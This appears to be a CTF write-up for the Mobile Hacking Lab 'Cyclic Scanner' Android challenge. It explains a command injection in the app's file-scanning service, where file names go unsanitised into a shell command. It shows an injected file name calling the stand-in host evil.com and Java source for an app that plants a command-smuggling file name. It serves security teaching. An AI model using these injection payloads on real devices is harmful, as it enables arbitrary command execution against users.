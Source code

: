 ```yaml
---
title:  "Mobile Hacking Lab Cyclic Scanner Writeup"
date:   2024-01-22T16:41:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for Cyclic Scanner challenge from Mobile Hacking Lab. 

## Static Analysis
Application have only MainActivity activity and this activity have a switch for activating a service.
Let's analyse code with jadx.
![](/assets/images_mhl_cyclicscanner/1.png)

When the manifest file is examined, some remarkable information is obtained.
- It can be predicted that it will perform file operations on external storage by requesting the MANAGE_EXTERNAL_STORAGE permission.
- Indicates that it will define a user-noticeable service (showing a notification in the status bar) using the FOREGROUND_SERVICE permission. (ScanService defined as service in manifest file.)

![](/assets/images_mhl_cyclicscanner/2.png)

When the codes of the MainActivity activity are examined, it is seen that if the key button shown to the user on the screen is activated, the scanning service starts and then an intent is sent to the ScanService service.

![](/assets/images_mhl_cyclicscanner/3.png)

When the codes of the ScanService service are examined, it is seen that when the service is started, it scans the files in the external storage and sends these files to the scanFile method in the ScanEngine class. Depending on the value returned from this method, whether the file is safe or infected is written to the logcat.

![](/assets/images_mhl_cyclicscanner/4.png)

The scanFile method calculates the sha1 hash value of the File object sent to it and checks whether it is one of the known malicious files. However, there is a command injection vulnerability here because the file location is added to the command string to be executed without any checking or cleaning process.

For example:
```
test.txt ; curl evil.com
```
If we set that string as the name of a file on an external storage, this name is added after the toybox command with “;” The commands left behind the sign are executed and a request is sent to evil.com. Any command can be run here within the scope of file name restrictions in the Android operating system. If you want to prepare a malicious application that creates the necessary file for the command to be run, the following piece of code can be used as an example:

```java
public class MainActivity extends AppCompatActivity {

    private static final int PERMISSION_REQUEST_CODE = 1;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        if (checkPermission()) {
            createTestFile();
        } else {
            requestPermission();
        }
    }

    private boolean checkPermission() {
        int writeExternalStoragePermission = ContextCompat.checkSelfPermission(getApplicationContext(), Manifest.permission.WRITE_EXTERNAL_STORAGE);
        return writeExternalStoragePermission == PackageManager.PERMISSION_GRANTED;
    }

    private void requestPermission() {
        ActivityCompat.requestPermissions(this, new String[]{Manifest.permission.WRITE_EXTERNAL_STORAGE}, PERMISSION_REQUEST_CODE);
    }

    @Override
    public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == PERMISSION_REQUEST_CODE) {
            if (grantResults.length > 0 && grantResults[0] == PackageManager.PERMISSION_GRANTED) {
                createTestFile();
            } else {
                Toast.makeText(getApplicationContext(), "Permission Denied!", Toast.LENGTH_SHORT).show();
            }
        }
    }

    private void createTestFile() {
        // your payload here:
        String fileName = "test.txt; mkdir hacked; cd hacked; touch pwnedddd ";

        File file = new File(Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS),fileName);

        try {
            boolean created = file.createNewFile();
            if (created) {
                Toast.makeText(getApplicationContext(), "File created: " + file.getAbsolutePath(), Toast.LENGTH_LONG).show();
            } else {
                Toast.makeText(getApplicationContext(), "File already exists: " + file.getAbsolutePath(), Toast.LENGTH_LONG).show();
            }
        } catch (IOException e) {
            e.printStackTrace();
            Toast.makeText(getApplicationContext(), "Failed to create file!", Toast.LENGTH_SHORT).show();
        }
    }

}

```
Don't forget to add 

```
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
```

permission to the manifest file so that files can be created in external storage.

[![](https://img.youtube.com/vi/-Mx9lSTS57s/0.jpg)](https://youtu.be/-Mx9lSTS57s)

Thanks for reading! See you in next writeups 👋🏻👋🏻
